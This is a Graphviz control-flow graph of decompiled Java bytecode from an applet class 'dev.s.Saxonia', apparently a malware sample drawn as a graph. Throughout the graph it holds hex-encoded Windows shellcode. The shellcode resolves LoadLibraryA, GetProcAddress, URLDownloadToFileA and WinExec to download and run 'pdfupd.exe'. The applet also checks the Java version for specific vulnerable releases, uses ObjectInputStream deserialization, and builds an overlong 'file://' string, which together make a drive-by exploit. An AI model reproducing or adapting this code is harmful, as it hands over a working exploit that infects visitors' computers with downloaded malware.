 digraph "" {
    "r0 := @this: dev.s.Saxonia"
    "push 4"
    "r0 := @this: dev.s.Saxonia"->"push 4";
    "newarray"
    "push 4"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "push 0"
    "load.r r3"->"push 0";
    "push \"505351525657559CE8000000005D83ED0D\""
    "push 0"->"push \"505351525657559CE8000000005D83ED0D\"";
    "arraywrite.r"
    "push \"505351525657559CE8000000005D83ED0D\""->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 1"
    "load.r r3"->"push 1";
    "push \"31C064034030780C8B400C8B701CAD8B4008EB098B\""
    "push 1"->"push \"31C064034030780C8B400C8B701CAD8B4008EB098B\"";
    "push \"31C064034030780C8B400C8B701CAD8B4008EB098B\""->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 2"
    "load.r r3"->"push 2";
    "push \"40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60\""
    "push 2"->"push \"40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60\"";
    "push \"40348D407C8B403C5657BE5E01000001EEBF4E01000001EFE8D60\""->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "push 3"
    "load.r r3"->"push 3";
    "push \"100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E0100\""
    "push 3"->"push \"100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E0100\"";
    "push \"100005F5E89EA81C25E010000526880000000FF954E01000089EA81C25E0100\""->"arraywrite.r";
    "push 5"
    "arraywrite.r"->"push 5";
    "push 5"->"newarray";
    "store.r $r12"
    "newarray"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push \"0031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\""
    "push 0"->"push \"0031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\"";
    "push \"0031F601C28A9C356302000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\""
    "push 1"->"push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\"";
    "push \"005250FF95560100006A006A0089EA81C25E0100005289EA81C278020000526A00FFD06A0589EA81C25E01000052FF955A01000089EA81C25E010000526880000000FF954E01000089EA81C25E01000031F601C28A9C356E02000080FB007406881C3246EBEEC604320089EA81C24502000052FF955201000089EA81C2500200005250FF95560100006A006A0089EA81C2\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 2";
    "push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\""
    "push 2"->"push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\"";
    "push \"5E0100005289EA81C2A6020000526A00FFD06A0589EA81C25E01000052FF955A0100009D5D5F5E5A595B58C30000000000000000000000000000000047657454656D705061746841004C6F61644C696272617279410047657450726F63416464726573730057696E4578656300BB89F289F730C0AE75FD29F789F931C0BE3C00000003B51B02000066AD03851B0200008B\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 3";
    "push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\""
    "push 3"->"push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\"";
    "push \"707883C61C03B51B0200008DBD1F020000AD03851B020000ABAD03851B02000050ABAD03851B020000AB5E31DBAD5603851B02000089C689D751FCF3A65974045E43EBE95E93D1E003852702000031F69666ADC1E00203851F02000089C6AD03851B020000C3EB100000000000000000000000000000000089851B0200005657E858FFFFFF5F5EAB01CE803EBB7402EBED\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 4";
    "push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\""
    "push 4"->"push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\"";
    "push \"C355524C4D4F4E2E444C4C0055524C446F776E6C6F6164546F46696C6541007064667570642E6578650063726173682E70687000\""->"arraywrite.r";
    "new java.lang.StringBuilder"
    "arraywrite.r"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r3";
    "load.r r3"->"push 0";
    "arrayread.r"
    "push 0"->"arrayread.r";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r3";
    "store.r r3"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r $r12";
    "store.r $r12"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push \"da\""
    "push 0"->"push \"da\"";
    "push \"da\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push \"ta\""
    "push 1"->"push \"ta\"";
    "push \"ta\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r12";
    "load.r $r12"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "push \"java.version\""
    "arraywrite.r"->"push \"java.version\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.version\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r5"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>";
    "store.r r6"
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"push 1";
    "push 1"->"newarray";
    "store.r r8"
    "newarray"->"store.r r8";
    "load.r r8"
    "store.r r8"->"load.r r8";
    "load.r r8"->"push 0";
    "push 63"
    "push 0"->"push 63";
    "arraywrite.c"
    "push 63"->"arraywrite.c";
    "arraywrite.c"->"push 0";
    "store.i r10"
    "push 0"->"store.i r10";
    "store.i r10"->"push 0";
    "store.i i47"
    "push 0"->"store.i i47";
    "load.r r6"
    "store.i i47"->"load.r r6";
    "load.i r10"
    "load.r r6"->"load.i r10";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i r10"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"load.r r8";
    "load.r r8"->"push 0";
    "arrayread.c"
    "push 0"->"arrayread.c";
    "ifcmpeq.c load.r r6"
    "arrayread.c"->"ifcmpeq.c load.r r6";
    "load.i i47"
    "ifcmpeq.c load.r r6"->"load.i i47";
    "load.i i47"->"load.r r6";
    "load.r r6"->"load.i r10";
    "load.i r10"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "add.i"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"add.i";
    "add.i"->"store.i i47";
    "inc.i r10 1"
    "store.i i47"->"inc.i r10 1";
    "goto load.r r6"
    "inc.i r10 1"->"goto load.r r6";
    "ifcmpeq.c load.r r6"->"load.r r6";
    "load.r r6"->"load.i i47";
    "push 7"
    "load.i i47"->"push 7";
    "push 7"->"add.i";
    "push 256"
    "add.i"->"push 256";
    "rem.i"
    "push 256"->"rem.i";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"
    "rem.i"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"deserialize=\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"deserialize=\"";
    "push \"deserialize=\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r5"
    "push -1"->"ifcmpne.i load.r r5";
    "return"
    "ifcmpne.i load.r r5"->"return";
    "load.r r5"
    "ifcmpne.i load.r r5"->"load.r r5";
    "push \"1.6.0_11\""
    "load.r r5"->"push \"1.6.0_11\"";
    "push \"1.6.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r5";
    "push \"1.6.0_12\""
    "load.r r5"->"push \"1.6.0_12\"";
    "push \"1.6.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r5";
    "push \"1.6.0_13\""
    "load.r r5"->"push \"1.6.0_13\"";
    "push \"1.6.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r5";
    "push \"1.6.0_14\""
    "load.r r5"->"push \"1.6.0_14\"";
    "push \"1.6.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r5";
    "push \"1.6.0_15\""
    "load.r r5"->"push \"1.6.0_15\"";
    "push \"1.6.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r5";
    "push \"1.6.0_16\""
    "load.r r5"->"push \"1.6.0_16\"";
    "push \"1.6.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i push 0"
    "push -1"->"ifcmpeq.i push 0";
    "ifcmpeq.i push 0"->"push 1";
    "store.b r8"
    "push 1"->"store.b r8";
    "store.b r8"->"goto load.r r6";
    "goto load.r r6"->"load.r r6";
    "push \"i=1\""
    "load.r r6"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b r10"
    "push 1"->"store.b r10";
    "goto load.b r8"
    "store.b r10"->"goto load.b r8";
    "load.b r8"
    "goto load.b r8"->"load.b r8";
    "load.b r10"
    "load.b r8"->"load.b r10";
    "and.b"
    "load.b r10"->"and.b";
    "ifeq load.r r5"
    "and.b"->"ifeq load.r r5";
    "push 47"
    "ifeq load.r r5"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <dev.s.Saxonia: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <dev.s.Saxonia: java.lang.String repeat(char,int)>";
    "store.r r10"
    "staticinvoke <dev.s.Saxonia: java.lang.String repeat(char,int)>"->"store.r r10";
    "store.r r10"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r8";
    "store.r r8"->"load.r r8";
    "load.r r8"->"push 0";
    "push \"fi\""
    "push 0"->"push \"fi\"";
    "push \"fi\""->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 1";
    "push \"le:\""
    "push 1"->"push \"le:\"";
    "push \"le:\""->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 2";
    "push \"//\""
    "push 2"->"push \"//\"";
    "push \"//\""->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 3";
    "push \"Z%\""
    "push 3"->"push \"Z%\"";
    "push \"Z%\""->"arraywrite.r";
    "arraywrite.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r10"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r10";
    "load.r r10"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r12";
    "load.r $r12"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r $r12";
    "load.r $r12"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <dev.s.Saxonia: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r10";
    "push \"\""
    "store.r r10"->"push \"\"";
    "store.r i47"
    "push \"\""->"store.r i47";
    "store.r i47"->"push 0";
    "store.i i50"
    "push 0"->"store.i i50";
    "load.i i50"
    "store.i i50"->"load.i i50";
    "load.i i50"->"load.r r10";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r r10"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmpge.i load.r i47"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmpge.i load.r i47";
    "ifcmpge.i load.r i47"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r i47"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r i47";
    "load.r i47"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r10";
    "load.r r10"->"load.i i50";
    "load.i i50"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>";
    "staticinvoke <java.lang.Integer: java.lang.String toHexString(int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i47";
    "inc.i i50 1"
    "store.r i47"->"inc.i i50 1";
    "goto load.i i50"
    "inc.i i50 1"->"goto load.i i50";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r8";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r8"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r8";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r8"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"load.r r5";
    "push \"1.5.0\""
    "load.r r5"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_01\""
    "load.r r5"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_02\""
    "load.r r5"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r5";
    "push \"1.5.0_03\""
    "load.r r5"->"push \"1.5.0_03\"";
